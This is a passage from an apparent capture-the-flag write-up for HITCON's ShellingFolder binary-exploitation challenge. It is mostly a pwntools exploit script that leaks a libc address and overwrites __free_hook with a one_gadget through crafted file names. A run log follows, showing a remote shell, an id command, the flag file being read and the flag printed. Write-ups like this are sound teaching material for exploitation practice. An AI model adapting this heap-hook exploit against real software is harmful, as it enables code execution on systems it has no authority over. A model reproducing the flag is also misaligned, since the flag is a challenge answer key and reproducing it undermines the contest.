 ```python
    # .text:0000000000045268                 lea     rsi, [rsp+188h+var_158]
    # .text:000000000004526D                 mov     cs:dword_3C54A0, 0
    # .text:0000000000045277                 mov     cs:dword_3C54A4, 0
    # .text:0000000000045281                 mov     rdx, [rax]
    # .text:0000000000045284                 call    execve
    ##########################
    r.recvuntil("----------------------\n")
    libc.address += u64(r.recv(6).ljust(8, "\x00")) - 0x3c3b78
    one_gadget = libc.address + 0x4525a
    malloc_hook = libc.symbols['__malloc_hook']
    free_hook = libc.symbols['__free_hook']
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))
    log.success("malloc_hook: "+hex(malloc_hook))
    log.success("free_hook: "+hex(free_hook))

    # overwrite free_hook to one_gadet
    make_dir("DDDD")
    change_dir("DDDD\n")
    create_file("i"*24+p64(free_hook)[:7:], (one_gadget & 0xffffffff))
    create_file("I"*24+p64(free_hook+4)[:7:], ((one_gadget & 0xffffffff00000000)>>32))
    cal()
    # get shell
    remove("i"*24+p64(free_hook)[:7:])
    
    r.interactive()
```

```
[x] Opening connection to 52.69.237.212 on port 4869
[x] Opening connection to 52.69.237.212 on port 4869: Trying 52.69.237.212
[+] Opening connection to 52.69.237.212 on port 4869: Done
[+] libc_base: 0x7ff15c7cc000
[+] one_gadget: 0x7ff15c81125a
[+] malloc_hook: 0x7ff15cb8fb10
[+] free_hook: 0x7ff15cb917a8
[*] Switching to interactive mode
 size 32753
The size of the folder is 0
**************************************
            ShellingFolder            
**************************************
 1.List the current folder            
 2.Change the current folder          
 3.Make a folder                      
 4.Create a file in current folder    
 5.Remove a folder or a file          
 6.Caculate the size of folder        
 7.Exit                               
**************************************
Your choice:Choose a Folder or file :

// id
uid=1000(shellingfolder) gid=1000(shellingfolder) groups=1000(shellingfolder)

// cat /home/shellingfolder/flag
hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}
``` 

flag: `hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}`
